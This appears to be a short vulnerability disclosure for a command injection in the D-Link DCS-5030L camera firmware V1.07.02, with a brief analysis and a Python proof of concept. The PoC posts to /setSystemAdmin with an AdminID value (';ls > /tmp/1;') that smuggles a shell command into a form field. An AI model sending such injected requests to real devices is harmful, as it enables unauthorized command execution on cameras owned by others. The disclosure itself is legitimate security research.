


# command injection

## D-LINK DCS-5030L

version: V1.07.02

## Description:

There is a command injection in alphapd/sub_42CBE0

## Source:

you may download it from : [legacyfiles.us.dlink.com - /DCS-5030L/REVA/FIRMWARE/](http://legacyfiles.us.dlink.com/DCS-5030L/REVA/FIRMWARE/)

## Analyse:



Login and set ConfigReboot,we can get into line 67.



Finally we could execute aribitrary command via parameter Var.

## POC

```
url = "http://192.168.1.13/setSystemAdmin"
headers = {
    'Host': '192.168.1.13',
    'Authorization': 'Basic base64(admin:password)',
    'Connection': 'close',
    'Content-Type': 'application/x-www-form-urlencoded'
}
data = {
    'ReplySuccessPage':'advanced.htm',
    'ReplyErrorPage':'errradv.htm',
    'AdminID':';ls > /tmp/1;',
    'ConfigReboot':'No'
}
r = requests.post(url, data=data,headers=headers)
```
